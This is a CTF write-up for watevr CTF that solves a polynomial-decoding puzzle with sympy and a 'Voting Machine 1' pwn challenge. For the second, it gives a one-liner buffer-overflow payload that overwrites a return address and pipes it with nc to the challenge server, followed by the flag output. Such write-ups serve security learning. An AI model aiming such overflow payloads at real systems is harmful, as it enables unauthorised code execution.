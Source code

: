 Hey guys back with another set of few writeups

# **MISC**

## Polly-:
> description:

I sure do love my polly uh ehh i mean polynomials, heh. Yeah that's what I meant...

### Solution: 

We were given [polly.txt](scripts/polly.txt) file which contains the polynomial
and following observations I conlcuded from them:

1. Why there are mostly zeroes at the end of denominator in each coefficient
2. Then 119 is the ascii of 'w'.

then looking for more in direction of approach 2nd I thought, that 119 is the value of polynomial at value '0'.
So maybe 'a' will be the value of polynomial at x='1' as we know the flag format 'watevr{'.

Thus [scripting](scripts/poly.py) it in few lines using [sympy](https://www.sympy.org/).

```python

from sympy import *
y=eval(open("polly.txt","r").read())
x=symbols('x')
print(''.join([chr(y.subs(x,i)) for i in range(57)]))
```

Here is our flag:
>   watevr{polly_polynomials_youtube.com/watch?v=THNWVVn9JO0}

# **PWN**

##  Voting Machine 1-:
> description:

In a world with many uncertainties we need some kind of structure. Democracy is a big part of that, therefore we need voting machines! Well, at least if they are safe...

### Solution: 

We were given 64 bit binary [kamikaze](scripts/kamikaze)

>kamikaze: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=0e647f48bd36f15e866166910d10dd173fb0fcf6, not stripped

Upon finding functions `0x0000000000400807  super_secret_function` found this but main function wasn't redirecting it.
So basic buffer overflow challenge and set the return pointer to this function and then execute it .

So one liner linux command for that:

`(python -c 'from pwn import p64;print "A"*10 +p64(0x00400807)') | nc 13.48.67.196 50000`


```
Hello and welcome to our voting application!
Today's vote will be regarding the administration of
watevr CTF.
the voting range is 0 to 10. 0 being the worst possible and 10 being the best possible.
Thanks!
Vote: Thanks for voting!
watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}
```


Here is our flag 

>   watevr{w3ll_th4t_w4s_pr3tty_tr1v1al_anyways_https://www.youtube.com/watch?v=Va4aF6rRdqU}


